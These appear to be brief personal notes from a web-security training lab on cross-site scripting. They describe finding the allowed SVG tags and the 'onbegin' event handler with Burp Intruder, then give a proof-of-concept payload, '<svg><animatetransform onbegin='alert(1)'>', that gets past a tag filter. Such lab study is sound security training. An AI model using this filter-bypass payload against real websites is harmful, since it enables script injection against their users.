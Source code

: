 This lab only accept these tags. 
The svg tag has inside animatetransform as attribute
![[Pasted image 20250826204248.png]]

Second, we have only one event listener, we discovered this with burp intruder. 
Onbegin is executed at the beginning, from there its name.
![[Pasted image 20250826204636.png]]

```
<svg><animatetransform onbegin='alert(1)'>
```
![[Pasted image 20250826205033.png]]